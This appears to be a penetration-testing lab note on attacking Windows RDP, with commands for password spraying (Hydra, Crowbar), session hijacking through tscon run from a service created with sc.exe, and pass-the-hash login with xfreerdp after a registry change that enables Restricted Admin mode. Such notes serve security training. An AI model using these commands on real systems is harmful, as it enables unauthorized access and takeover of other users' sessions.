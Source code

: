# RDP Attack

* a user account will be locked or disabled after a certain number of failed login attempts.
  * In this case, we can perform a specific password guessing technique called \[\[Password Spraying]]
    * Using the Crowbar tool, we can perform a password spraying attack against the RDP service

### Nmap

```bash
nmap -Pn -p3389 192.168.2.143 
```

### Hydra - RDP Password Spraying

```
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### Crowbar - RDP Password Spraying

* [crowbar.md](crowbar.md "mention")



### RDP Session Hijacking

* if another user is logged in we can hyjack their session
* To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary
  * that enables users to connect to another desktop session

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges.
  * Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

```cmd-session
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

* If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as \[\[PsExec]] or \[\[Mimikatz]]
* A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges
  * We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.
  * First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute.
  * Once we run the following command, a service named `sessionhijack` will be created.

```cmd-session
C:\htb> query user
```

```cmd-session
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```cmd-session
C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

```cmd-session
[SC] CreateService SUCCESS
```

* To run the command, we can start the `sessionhijack` service :

```cmd-session
net start sessionhijack
```

* Once the service is started, a new terminal with the `lewen` user session will appear.
* With this new account, we can attempt to discover what kind of privileges it has on the network
*

    <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * _Note: This method no longer works on Server 2019._

    ### RDP Pass-the-Hash (PtH)

    * If we have plaintext credentials for the target user, it will be no problem to RDP into the system.
      * However, what if we only have the NT hash of the user obtained from a credential dumping attack such as [SAM](https://en.wikipedia.org/wiki/Security_Account_Manager) database, and we could not crack the hash to reveal the plaintext password
      * in some instances, we can perform an RDP PtH attack to gain GUI access to the target system using tools like `xfreerdp`.
      * There are a few caveats to this attack
        * `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:
          *

              <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


          * This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG\_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.&#x20;
            * It can be done using the following command: - `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
            *

                <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


            * Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access: - `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
          * If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.&#x20;



